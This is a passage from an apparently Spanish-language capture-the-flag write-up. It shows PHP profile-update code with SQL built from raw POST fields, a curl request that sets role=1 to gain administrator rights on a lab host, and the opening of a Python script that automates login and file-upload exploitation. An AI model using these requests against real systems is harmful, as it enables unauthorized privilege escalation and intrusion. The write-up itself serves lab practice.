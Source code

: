 ```php
        $email = $_POST['email'];
        $company = $_POST['company'];
        $role = $user['role'];

        if (isset($_POST['role'])) {
            $role = $_POST['role'];
            $_SESSION['role'] = $role;
        }


        // dont persist role
        $sql = "UPDATE users SET firstName='$firstName', lastName='$lastName', email='$email', company='$company' WHERE id=$id";

        $stmt = $pdo->prepare($sql);
        $stmt->execute();

        $statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
        $result = $statement->execute(array('id' => $id));
        $user = $statement->fetch();

        // but return it to avoid confusion
        $user['role'] = $role;
        $user['6'] = $role;

        echo json_encode($user, JSON_PRETTY_PRINT);

    } else {
        echo "No user with this id was found.";
    }
}
?>
```

---------
#### Role manipulation  
En el codigo, encontramos que si tramitamos una petición donde si contemplamos el parametro role podemos tornarlo a **1** y ser administradores:
```json
# curl -s -X POST "http://10.10.10.10/profile_update.php" --data 'firstName=Sexcott&lastName=Sexcott&email=Sexcott@sexcott.com&company=Sexcott&role=1' 
```

----------
#### File Upload Exploitation 
para ahorrarnos el tiempo, podemos programar algo en python que nos automatice todo:
```python
#!/usr/bin/python3

import requests
import pdb
import time
import signal

def def_handler(sig, frame):
	print("\n[!] Saliendo...!")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://10.10.10.10/login.php?login=true"
upload_file = "http://10.10.10.10/upload.php"
update_profile_url = "http://10.10.10.10/profile_update.php"
```